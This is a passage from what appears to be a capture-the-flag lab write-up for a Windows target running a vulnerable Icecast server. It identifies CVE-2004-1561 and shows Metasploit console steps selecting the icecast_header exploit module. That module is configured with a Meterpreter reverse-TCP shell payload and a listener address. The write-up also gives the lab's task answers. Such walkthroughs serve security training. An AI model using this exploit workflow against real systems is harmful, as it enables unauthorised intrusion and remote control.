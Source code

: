 #### What does Nmap identify as the hostname of the machine ? (All caps for the answer)
  
DARK-PC  

### Task 3 : Gain access
  
  #### Icecast, or well at least this version running on our target, is heavily flawed and has a high level vulnerability with a score of 7.5 (7.4 depending on where you view it). What type of vulnerability is it ?
  
Search for Icecast on https://www.cvedetails.com
  
Try each vulnerability with a score of 7.5 or 7.4 => CVE-2004-1561

  The vulnerability type is "execute code overflow".
  
  #### What is the CVE number for this vulnerability ? This will be in the format: CVE-0000-0000
  
  CVE-2004-1561
  
  Start Metasploit.
  
  #### After Metasploit has started, let's search for our target exploit using the command 'search icecast'. What is the full path (starting with exploit) for the exploitation module ?

`msf5 > search icecast`

> Matching Modules
>
>   \#  Name                                 Disclosure Date  Rank   Check  Description
>  
>   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite 
  
=> exploit/windows/http/icecast_header
  
  #### What is the only required setting which currently is blank ?
  
  `msf5 > use 0`

>  [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

 `msf5 exploit(windows/http/icecast_header) > show options`
  
>   Module options (exploit/windows/http/icecast_header):
> 
>    Name    Current Setting  Required  Description
>   
>    ----    ---------------  --------  -----------
>   
>    RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
>   
>    RPORT   8000             yes       The target port (TCP)
> 
> Payload options (windows/meterpreter/reverse_tcp):
> 
>    Name      Current Setting  Required  Description
>   
>    ----      ---------------  --------  -----------
>   
>    EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
>   
>    LHOST     10.10.203.123    yes       The listen address (an interface may be specified)